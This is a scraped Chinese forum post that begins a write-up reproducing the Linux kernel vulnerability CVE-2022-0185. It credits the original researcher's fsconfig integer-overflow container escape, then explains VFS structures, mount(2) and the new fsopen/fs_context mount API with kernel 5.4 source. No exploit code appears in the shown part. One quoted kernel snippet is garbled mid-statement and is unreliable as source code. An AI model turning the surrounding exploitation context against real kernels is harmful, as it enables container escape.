








# [漏洞分析] 【Linux kernel 漏洞复现】CVE-2022-0185

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1842879
- 抓取时间: 2026-11-01T21:55:40

## CVE-2022-0185

算是第一次进行Linux的漏洞分析，其中还是有许多不足，复现还有几种手法没实现完全


## 一、背景



由[www.willsroot.io/2022/01/cve-2022-0185.html](https://www.willsroot.io/2022/01/cve-2022-0185.html)大师提出，以此赢得了31337刀的奖金(但看评论好像本来是50K，最后起了点矛盾降价惹)以及成功在google kctf中实现容器逃逸

整个漏洞利用了VFS中`fsconfig`某个参数实现的函数过程当中的一个整形溢出来实现越界写，其中利用手法也是十分精彩，原作者博客是利用到他曾经在 corctf2021上出的一道 [www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html](https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html)，此外作者好朋友D3V17也在当年出了同样一道题目，但是难度会在前面的题更大，[syst3mfailure.io/wall-of-perdition/](https://syst3mfailure.io/wall-of-perdition/),其中便是使用`msg_msg`搭配`userfaultfd`来实现任意写或者读，而为了应用到本次漏洞，考虑到高版本`userfaultfd`无法为普通用户使用，所以让 FUSE来代替`userfaultfd`，一般前者不会在CTF赛事当中出现，他需要在有着完备的环境条件才可使用，就比如说真机，而 BitesByWill师傅也顺便写了一个简单的`fuse`库来辅助利用orz

## 二、文件系统基础知识

### 1.VFS基本概念

早就听说过虚拟文件系统的大名，网上的解释如下：

> VFS（Virtual Filesystem Switch）称为虚拟文件系统或虚拟文件系统转换，是一个内核软件层，在具体的文件系统之上抽象的一层，用来处理与Posix文件系统相关的所有调用，表现为能够给各种文件系统提供一个通用的接口，使上层的应用程序能够使用通用的接口访问不同文件系统，同时也为不同文件系统的通信提供了媒介

从概念上来看其实十分的简单易懂,也就是类似开发中的面向接口编程了,他为不同的文件系统定义了一个普遍的接口,所以不同文件系统只需要按照这个规定好的接口来构造即可,具体实现部分可以按照自己的思路来

在我们的oS当中,整体布局可以用下面这个图来表示,CSDN找的,侵删.不得不说这个图画的十分的好,我就自己不献丑了


平常我们所使用的系统调用也是第一先经过VFS,通过他提供的接口来进行系统调用的操作,当然具体实现还是看底层真正存在的文件系统类型了,但是在用户层程序员的眼中看来并无太大区别,由于不同文件系统的多样性和用户系统调用的复杂性,VFS文件系统这一抽象层的存在是十分具有存在意义的.

### 2.VFS抽象接口

上述示例中提到VFS也有自己的文件模型，用来支持操作系统的系统调用。下面是VFS抽象模型支持的所有Linux系统调用：

- 文件系统相关：`mount`, `umount`, `umount2`, `sysfs`, `statfs`, `fstatfs`, `fstatfs64`, `ustat`
- 目录相关：`chroot`，`pivot_root`，`chdir`，`fchdir`，`getcwd`，`mkdir`，`rmdir`，`getdents`，`getdents64`，`readdir`，`link`，`unlink`，`rename`，`lookup_dcookie`
- 链接相关：`readlink`，`symlink`
- 文件相关：`chown`， `fchown`，`lchown`，`chown16`，`fchown16`，`lchown16`，`hmod`，`fchmod`，`utime`，`stat`，`fstat`，`lstat`，`acess`，`oldstat`，`oldfstat`，`oldlstat`，`stat64`，`lstat64`，`lstat64`，`open`，`close`，`creat`，`umask`，`dup`，`dup2`，`fcntl`， `fcntl64`，`select`，`poll`，`truncate`，`ftruncate`，`truncate64`，`ftruncate64`，`lseek`，`llseek`，`read`，`write`，`readv`，`writev`，`sendfile`，`sendfile64`，`readahead`

### 3.VFS Common File Model

就是说文件系统的抽象化模型,在我们硬盘之中,扇区普遍设置为512字节,而我们内存与硬盘的交互是十分缓慢的,所以一般数据交换并不以扇区(sectors)为单位,而是以块(block)为单位,块一般为4KB大小

硬盘中文件系统就是用来存放文件信息的,其中不仅有文件类容,还需要存放一些关于文件的信息,例如说文件归属,文件权限等,因此在文件系统中会存放`inode`节点,在之前自己实现的OS当中是存放了文件数据的扇区号等等用来方便访问.我们最初的`open`系统调用实际上就是将`inode`节点从硬盘转到内存了而已.

文件系统中定义了四个较为重要的对象,他们合在一起便构建了我们的统一文件模型,接下来分别介绍他们

#### 1.`Superblock`

超级块,Unix的特色,里面存放了一系列我们需要使用的元信息,相当于是一个统筹全局的资料库


他的数据结构体被存放于`include/linux/fs.h`中,大家有兴趣可以详细查看

```
struct super_block {
        struct list_head        s_list;                /* Keep this first */                 //链接各超级块
        dev_t                        s_dev;                /* search index; _not_ kdev_t */
        unsigned char                s_blocksize_bits;
        unsigned long                s_blocksize;
        loff_t                        s_maxbytes;        /* Max file size */
        struct file_system_type        *s_type;
        const struct super_operations        *s_op;                                 //操作文件系统的函数指针
        const struct dquot_operations        *dq_op;
        const struct quotactl_ops        *s_qcop;
        const struct export_operations *s_export_op;
        unsigned long                s_flags;
        unsigned long                s_iflags;        /* internal SB_I_* flags */
        unsigned long                s_magic;
        struct dentry                *s_root;                                 //根目录入口点
        struct rw_semaphore        s_umount;
        int                        s_count;
        atomic_t                s_active;

        ...

} __randomize_layout;
```

一般我们的超级块都会存放在该文件系统的头部,由于linux一般可以挂在多个文件系统,所以这个超级块的`s_list`字段就是用来链接下一个超级快

#### 2.`inode`

他标识了一个存在于硬盘中的文件，他在内存当中是以VFS `inode`存在，在硬盘中则可能有些许不同，可能包含了存放在硬盘中不需要的一些字段，可能有某种不以`inode`进行管理的文件系统，说的就是你们，FAT和Reiserfs，VFS的处理方式就是将其中的特定信息赋值给内存中的`inode`

```
/*

 * Keep mostly read-only and often accessed (especially for

 * the RCU path lookup and 'stat' data) fields at the beginning

 * of the 'struct inode'

 */

struct inode {

        umode_t                        i_mode;

        unsigned short                i_opflags;

        kuid_t                        i_uid;

        kgid_t                        i_gid;

        unsigned int                i_flags;

        ...

} __randomize_layout;
```

#### 3.`dentry`

目录项缓存，Linux使用它来快速访问此前的查找操作的结果。在VFS连同文件系统实现读取的一个目录项（目录或文件）的数据之后，则创建一个`dentry`实例，以缓存找到的数据，这样下次我们寻找该文件/目录则会首先从该缓存找起，而不是再次通过文件名来到查找相应目录项了

```
struct dentry {
        /* RCU lookup touched fields */
        unsigned int d_flags;                /* protected by d_lock */
        seqcount_spinlock_t d_seq;        /* per dentry seqlock */
        struct hlist_bl_node d_hash;        /* lookup hash list */
        struct dentry *d_parent;        /* 父目录 */
        struct qstr d_name;
        struct inode *d_inode;                /* 该文件名所属inode，如果不存在则为NULL */
        unsigned char d_iname[DNAME_INLINE_LEN];        /* small names */

        /* Ref lookup also touches following */
        struct lockref d_lockref;        /* per-dentry lock and refcount */
        const struct dentry_operations *d_op;
        struct super_block *d_sb;        /* The root of the dentry tree */
        unsigned long d_time;                /* used by d_revalidate */
        void *d_fsdata;                        /* fs-specific data */

        union {
                struct list_head d_lru;                /* LRU list */
                wait_queue_head_t *d_wait;        /* in-lookup ones only */
        };
        struct list_head d_child;        /* child of parent list */
        struct list_head d_subdirs;        /* our children */
        /*
         * d_alias and d_rcu can share memory
         */
        union {
                struct hlist_node d_alias;        /* inode alias list */
                struct hlist_bl_node d_in_lookup_hash;        /* only for in-lookup ones */
                 struct rcu_head d_rcu;
        } d_u;
} __randomize_layout;
```

#### 4.传统`mount`系统调用

我们平时都会使用`mount`系统调用来挂在某一文件系统，我们可以查看一下Linux手册

```
SYNOPSIS

       mount [-h|-V]

       mount [-l] [-t fstype]

       mount -a [-fFnrsvw] [-t fstype] [-O optlist]

       mount [-fnrsvw] [-o options] device|mountpoint

       mount [-fnrsvw] [-t fstype] [-o options] device mountpoint

       mount --bind|--rbind|--move olddir newdir

       mount --make-[shared|slave|private|unbindable|rshared|rslave|rprivate|runbindable] mountpoint
```

我们通常会采用下面命令来进行挂载

```
mount -t xfs /dev/sdb1 -o /mnt/temp
```

具体含义就是将`/dev/sdb1`设备代表的文件系统以xfs文件系统的格式来挂载到`/mnt/temp`目录下，这样就加入到了我们`/`根目录的文件树当中，这样以来我们才可以正常访问其中内容，除了Linux实际上windows也存在挂载操作，但为了简化我们用户的使用就隐藏了这一点

除了命令行使用的`mount`，我们来关注一下代码当中使用的`mount`系统调用，以下查看手册

```
man 2 mount
```


# mount(2)
System Calls Manual

## NAME
`mount` - mount filesystem

## LIBRARY
Standard C library (`libc`, `-lc`)

## SYNOPSIS
```c
#include 

int mount(const char *source, const char *target,
          const char *filesystemtype, unsigned long mountflags,
          const void *_Nullable data);
```

## DESCRIPTION
`mount()` 将源指定的文件系统（通常是引用设备的路径名，但也可以是目录或文件的路径名，或虚拟字符串）附加到路径名指定的位置（目录或文件）在目标中。

挂载文件系统需要适当的权限（Linux：`CAP_SYS_ADMIN` 功能）。

Values for the `filesystemtype` argument supported by the kernel are listed in `/proc/filesystems` (e.g., "`btrfs`", "`ext4`", "`jfs`", "`xfs`", "`vfat`", "`fuse`", "`tmpfs`", "`cgroup`", "`proc`", "`mqueue`", "`nfs`", "`cifs`", "`iso9660`").
Further types may become available when the appropriate modules are loaded.

数据参数由不同的文件系统解释。通常，它是该文件系统可以理解的一串以逗号分隔的选项。有关每种文件系统类型可用选项的详细信息，请参阅 `mount(8)`。如果没有选项，则可以将该参数指定为 `NULL`。

A call to `mount()` performs one of a number of general types of operation, depending on the bits specified in `mountflags`. The choice of which operation to perform is determined by testing the bits set in `mountflags`, with the tests being conducted in the order listed here:

- Remount an existing mount: `mountflags` includes `MS_REMOUNT`.
- Create a bind mount: `mountflags` includes `MS_BIND`.
- Change the propagation type of an existing mount: `mountflags` includes one of `MS_SHARED`, `MS_PRIVATE`, `MS_SLAVE`, or `MS_UNBINDABLE`.
- Move an existing mount to a new location: `mountflags` includes `MS_MOVE`.
- Create a new mount: `mountflags` includes none of the above flags.

Each of these operations is detailed later in this page. Further flags may be specified in `mountflags` to modify the behavior of `mount()`, as described below.

### 5. 注册文件系统

#### 1. 定义文件系统类型(file_system_type)

在注册之前，我们需要先定义一个属于自身文件系统类型的结构体 `struct file_system_type`

```c
struct file_system_type {
        const char *name;
        int fs_flags;
#define FS_REQUIRES_DEV                1 
#define FS_BINARY_MOUNTDATA        2
#define FS_HAS_SUBTYPE                4
#define FS_USERNS_MOUNT                8        /* Can be mounted by userns root */
#define FS_DISALLOW_NOTIFY_PERM        16        /* Disable fanotify permission events */
#define FS_RENAME_DOES_D_MOVE        32768        /* FS will handle d_move() during rename() internally. */
        int (*init_fs_context)(struct fs_context *);
        const struct fs_parameter_description *parameters;
        struct dentry *(*mount) (struct file_system_type *, int,
                       const char *, void *);
        void (*kill_sb) (struct super_block *);
        struct module *owner;
        struct file_system_type * next;
        struct hlist_head fs_supers;
        struct lock_class_key s_lock_key;
        struct lock_class_key s_umount_key;
        struct lock_class_key s_vfs_rename_key;
        struct lock_class_key s_writers_key[SB_FREEZE_LEVELS];
        struct lock_class_key i_lock_key;
        struct lock_class_key i_mutex_key;
        struct lock_class_key i_mutex_dir_key;
};
```

下面我们来分别解释

- `name`: 文件系统的名字，如 `ext2/3`, `xfs` 等等
- `fs_flags`: 文件系统类型
- `FS_REQUIRES_DEV`: 文件系统必须在物理设备上 (`/proc` 文件系统就不再物理设备上)
- `FS_BINARY_MOUNTDATA`: 当需要 `mount` 的文件系统是二进制格式下时
- `FS_HAS_SUBTYPE`: 文件系统有一个子类型。它是从名称中提取出来并作为参数传入的, 最常见的就是 `FUSE`，`FUSE` 本是不是真正的文件系统，所以要通过子文件系统类型来区别通过 `FUSE` 接口实现的不同文件系统。
- `FS_USERNS_MOUNT`: 可以由 `root` 用户挂载(?
- `FS_RENAAME_DOES_D_MOVE`: 文件系统将会在 `rename()` 函数期间处理 `d_move()`
- `mount()`: 代替早期的 `get_sb()` 函数，这个 `sb` 指的是超级块，并作为用户挂载此文件系统时所使用的回调函数
- `kill_sb()`: 删除内存中所存在的超级块，用作卸载文件系统
- `owner`: 指向实现这个文件系统的模块，通常表示为宏 `THIS_MODULE`
- `next`: 指向链接的下一个文件系统类型
- `fs_supers`: 此文件系统类型的文件系统超级块都串联在该 `list_head` 之下

在定义完对应的文件系统类型结构体之后，我们需要将文件系统注册进内核

#### 2. 注册文件系统

首先我们可以查看源码 [//elixir.bootlin.com/linux/v5.4.101/source/fs/filesystems.c](https://elixir.bootlin.com/linux/v5.4.101/source/fs/filesystems.c)

里面定义了大量的系统调用，其中文件开头定义了一个全局变量

```c
static struct file_system_type *file_systems;
```

可以看到该值的类型为一个指向 `file_system_type` 的指针，这个指针全局变量指向的是内存中所有存在的文件系统类型

这里我们就来看相关的注册函数

```c
/**
 *        register_filesystem - register a new filesystem
 *        @fs: the file system structure
 *
 *        将传递的文件系统添加到内核为挂载和其他系统调用所知的文件系统列表中。
 *  成功时返回 0，错误时返回负 errno 代码.
 *
 *        The &struct file_system_type that is passed is linked into the kernel 
 *        structures and must not be freed until the file system has been
 *        unregistered.
 */
int register_filesystem(struct file_system_type * fs)
{
        int res = 0;
        struct file_system_type ** p;
        if (fs->parameters && !fs_validate_description(fs->parameters))
                return -EINVAL;
        BUG_ON(strchr(fs->name, '.'));
        if (fs->next)
                return -EBUSY;
        write_lock(&file_systems_lock);
        p = find_filesystem(fs->name, strlen(fs->name));
        if (*p)
                res = -EBUSY;
        else
                *p = fs;
        write_unlock(&file_systems_lock);
        return res;
}
```

这里我们观察到重点函数 `find_filesystem`，跟进查看

```c
static struct file_system_type **find_filesystem(const char *name, unsigned len)
{
        struct file_system_type **p;
        for (p = &file_systems; *p; p = &(*p)->next)
                if (strncmp((*p)->name, name, len) == 0 &&
                    !(*p)->name[len])
                        break;
        return p;
}
```

就是通过全局变量 `file_systems` 通过链条来查找类型而已，找到了就返回对应的 `file_system_type` 指针

这样以来我们的 `register_filesystem` 的大致功能就是首先找到对应文件系统类型指针，如果不存在，则将该文件系统类型链入到全局链表的末尾，若存在则返回 `-EBUSY` 错误

经过上述函数，我们的文件系统模块才算是成功注册进内核，然后我们之后就可以使用 `mount` 系统调用继续进行挂载

### 6. 新一代VFS mount系统调用


有大哥觉得过去的 `mount` 系统调用有许多不同的缺点，在老哥发起整改号召前，传统 `mount()` 系统调用一直被广泛使用，即使其中有着些许改变但是仍未改变其接口特性。但是在背后 VFS 派的 AL Viro 早就对此系统调用十分不满，希望迎来变革，这一密谋终于在 2018 年的 [//lwn.net/Articles/753473/](https://lwn.net/Articles/753473/) 被公开，他们号召完全改写 `mount` 的系统调用接口, 他们指出了传统 `mount` 系统调用中的一系列难以修复漏洞和 `bug`，在 Linux 内核 5.2 版本后，新一代 `mount` API 就被整合到主线 Linux

[//patchwork.kernel.org/project/linux-security-module/cover/153754740781.17872.7869536526927736855.stgit@warthog.procyon.org.uk/](https://patchwork.kernel.org/project/linux-security-module/cover/153754740781.17872.7869536526927736855.stgit@warthog.procyon.org.uk/)


上面是 [//arttnba3.cn/2023/01/11/CVE-0X09-CVE-2022-0185/#0x00-%E4%B8%80%E5%88%87%E5%BC%80%E5%A7%8B%E4%B9%8B%E5%89%8D](https://arttnba3.cn/2023/01/11/CVE-0X09-CVE-2022-0185/#0x00-%E4%B8%80%E5%88%87%E5%BC%80%E5%A7%8B%E4%B9%8B%E5%89%8D) 原话:dog:

```bash
# mkfs.xfs -f /dev/sdb1
# cat old-mount-xfs.c
#include   
#include   
int main(int argc, char *argv[]) {  
        if (mount("/dev/sdb1", "/mnt/scratch", "xfs", 0, NULL)) {  
                perror("mount failed");  
        }
        return 0;  
}
# gcc -Wall -o old-mount-xfs old-mount-xfs.c
# ./mymount 
# cat /proc/mounts |grep sdb1
/dev/sdb1 /mnt/scratch xfs rw,seclabel,relatime,attr2,inode64,noquota 0 0
```

如上图所示我们使用传统的 `mount` 系统调用十分简单，只需要简单调用上面的函数接口即可，但是当 `new mount API` 引入之后，以前臃肿、冗杂的 `mount` 系统调用被拆解为一个一个小块来进行实现，

而我们的 `new mount API` 的使用，按照官方文档来说，遵循以下步骤

```c
        fd = fsopen("nfs");
        fsconfig(fd, FSCONFIG_SET_STRING, "option", "val", 0);
        fsconfig(fd, FSCONFIG_CMD_CREATE, NULL, NULL, 0);
        mfd = fsmount(fd, MS_NODEV);
        move_mount(mfd, "", AT_FDCWD, "/mnt", MOVE_MOUNT_F_EMPTY_PATH);
```

下面我们来分别介绍（由于本次复现打算在 5.4 上面复现，所以下面的源码都是取自 `kernel.5.4.101`）

#### 1. fsopen(打开文件系统类型)

```c
/*
 * 通过名字打开一个文件系统，然后为了接下来的挂载来进行配置
*/
```


### `fsopen` 系统调用实现

```c
/*
 * 我们可以指定将在其中打开文件系统的容器，
 * 从而指示将使用哪些名称空间（特别是，哪个网络名称空间将用于网络文件系统）。
 */
```

```c
SYSCALL_DEFINE2(fsopen, const char __user *, _fs_name, unsigned int, flags)
{
        struct file_system_type *fs_type;
        struct fs_context *fc;
        const char *fs_name;
        int ret;
        if (!ns_capable(current->nsproxy->mnt_ns->user_ns, CAP_SYS_ADMIN))
                return -EPERM;
        if (flags & ~FSOPEN_CLOEXEC)
                return -EINVAL;
        fs_name = strndup_user(_fs_name, PAGE_SIZE);
        if (IS_ERR(fs_name))
                return PTR_ERR(fs_name);
        fs_type = get_fs_type(fs_name);                 //通过我们传入文件系统的名称来获取对应的fs_system_type
        kfree(fs_name);
        if (!fs_type)
                return -ENODEV;
        fc = fs_context_for_mount(fs_type, 0);         //通过fs_type来准备mount上下文
        ...
}
```

这里需要注意我们的`fsopen`并不是打开了一个位于硬盘上的具体的文件系统`on-disk`，而是打开了一个文件系统类型（`file_system_type`）

### `fs_context_for_mount`

其中后面会调用`fs_context_for_mount`函数，然后调用到`alloc_fs_context`，其中传入的参数如下：

```c
enum fs_context_purpose {
        FS_CONTEXT_FOR_MOUNT,                /* New superblock for explicit mount */
        FS_CONTEXT_FOR_SUBMOUNT,        /* New superblock for automatic submount */
        FS_CONTEXT_FOR_RECONFIGURE,        /* Superblock reconfiguration (remount) */
};

struct fs_context *fs_context_for_mount(struct file_system_type *fs_type,
                                        unsigned int sb_flags)
{
        return alloc_fs_context(fs_type, NULL, sb_flags, 0,
                                        FS_CONTEXT_FOR_MOUNT);
}
```

### `alloc_fs_context`

```c
/**
 * alloc_fs_context - Create a filesystem context.
 * @fs_type: The filesystem type.
 * @reference: The dentry from which this one derives (or NULL)
 * @sb_flags: Filesystem/superblock flags (SB_*)
 * @sb_flags_mask: Applicable members of @sb_flags
 * @purpose: The purpose that this configuration shall be used for.
 *
 * 打开文件系统并创建挂载上下文。
 * 挂载上下文使用提供的标志进行初始化，并且如果提供了来自另一个超级块（由 @reference 引用）的子挂载/自动挂载，
 * 则可能具有从该超级块复制的名称空间等参数。
 */
static struct fs_context *alloc_fs_context(struct file_system_type *fs_type,
                                      struct dentry *reference,
                                      unsigned int sb_flags,
                                      unsigned int sb_flags_mask,
                                      enum fs_context_purpose purpose)
{
        int (*init_fs_context)(struct fs_context *);
        struct fs_context *fc;
        int ret = -ENOMEM;
        fc = kzalloc(sizeof(struct fs_context), GFP_KERNEL_ACCOUNT);
        if (!fc)
                return ERR_PTR(-ENOMEM);
        fc->purpose        = purpose;
        fc->sb_flags        = sb_flags;
        fc->sb_flags_mask = sb_flags_mask;
        fc->fs_type        = get_filesystem(fs_type);
        fc->cred        = get_current_cred();
        fc->net_ns        = get_net(current->nsproxy->net_ns);
        fc->log.prefix        = fs_type->name;
        mutex_init(&fc->uapi_mutex);
        switch (purpose) {
        case FS_CONTEXT_FOR_MOUNT:
                fc->user_ns = get_user_ns(fc->cred->user_ns);
                break;
        case FS_CONTEXT_FOR_SUBMOUNT:
                fc->user_ns = get_user_ns(reference->d_sb->s_user_ns);
                break;
        case FS_CONTEXT_FOR_RECONFIGURE:
                atomic_inc(&reference->d_sb->s_active);
                fc->user_ns = get_user_ns(reference->d_sb->s_user_ns);
                fc->root = dget(reference);
                break;
        }
        /* TODO: Make all filesystems support this unconditionally */
        init_fs_context = fc->fs_type->init_fs_context;
        if (!init_fs_context)
                init_fs_context = legacy_init_fs_context;
        ret = init_fs_context(fc);
        if (ret need_free = true;
        return fc;
err_fc:
        put_fs_context(fc);
        return ERR_PTR(ret);
}
```

这里我们发现代码首先是利用`kzalloc`分配了一个`fs_context`结构体，也就是我们的一个文件系统上下文，如下：

### `fs_context` 结构体

```c
/*
 * 文件系统上下文，用于保存创建或重新配置超级块时使用的参数。
 *
 * Superblock creation fills in ->root whereas reconfiguration begins with this
 * already set.
 *
 * See Documentation/filesystems/mount_api.rst
 */
struct fs_context {
        const struct fs_context_operations *ops;
        struct mutex                uapi_mutex;        /* Userspace access mutex */
        struct file_system_type        *fs_type;          /* 文件系统类型 */
        void                        *fs_private;        /* 文件系统上下文 */
        void                        *sget_key;
        struct dentry                *root;                /* rooth */
        struct user_namespace        *user_ns;        /* 本次mount的用户命名空间 */
        struct net                *net_ns;        /* 本次mount的网络命名空间 */
        const struct cred        *cred;                /* The mounter's credentials */
        struct p_log                log;                /* 日志缓冲区 */
        const char                *source;        /* The source name (eg. dev path) */
        void                        *security;        /* Linux S&M options */
        void                        *s_fs_info;        /* Proposed s_fs_info */
        unsigned int                sb_flags;        /* Proposed superblock flags (SB_*) */
        unsigned int                sb_flags_mask;        /* Superblock flags that were changed */
        unsigned int                s_iflags;        /* OR'd with sb->s_iflags */
        unsigned int                lsm_flags;        /* Information flags from the fs to the LSM */
        enum fs_context_purpose        purpose:8;
        enum fs_context_phase        phase:8;        /* The phase the context is in */
        bool                        need_free:1;        /* Need to call ops->free() */
        bool                        global:1;        /* Goes into &init_user_ns */
        bool                        oldapi:1;        /* Coming from mount(2) */
};
```

看到上面代码后面有这样一段

```c
...
/* TODO: Make all filesystems support this unconditionally */
init_fs_context = fc->fs_type->init_fs_context;
if (!init_fs_context)
        init_fs_context = legacy_init_fs_context;
ret = init_fs_context(fc);
...
```

